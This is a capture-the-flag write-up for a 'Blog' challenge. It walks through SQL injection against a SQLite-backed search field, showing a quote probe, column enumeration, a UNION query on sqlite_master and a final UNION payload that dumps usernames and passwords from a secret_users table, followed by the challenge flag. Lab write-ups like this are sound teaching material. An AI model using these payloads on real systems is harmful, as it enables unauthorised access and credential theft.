 # Blog - Points: 30

### Description:

Get the admin password from this [website](http://challenge.acictf.com:31800/).

### Hints

 - Not much you can do except search.
 - Explore the database.
 - The blog is using sqlite.

### Solution

The hints pretty much give this one away.

Lets try to shove a sqli into the search field.

`http://challenge.acictf.com:31800/?search=%27`

returns a 500 error.

`http://challenge.acictf.com:31800/?search=%27%27`

seems to return a page without errors, but with messed up search results.

![1](img/1.png)

Alright, now let's enumerate the amount of columns that we need to return so that we don't cause errors.

![2](img/2.png)

Alrighty, it looks like we need 3 columns. Now let's begin enumerating the database. The hints tell us that this is sqlite, so that's the syntax we will use.

Using the injection: `' union select name,sql,1 from sqlite_master where type='table';--'`, we get the names of the tables reflected to the page. This one looks interesting:

![3](img/3.png)

Using the injection: `'union select username,password,1 from secret_users;--'`, we win.

![4](img/4.png)

### Flag: `ACI{56ed3fee80b3bdae097342edbe0}`

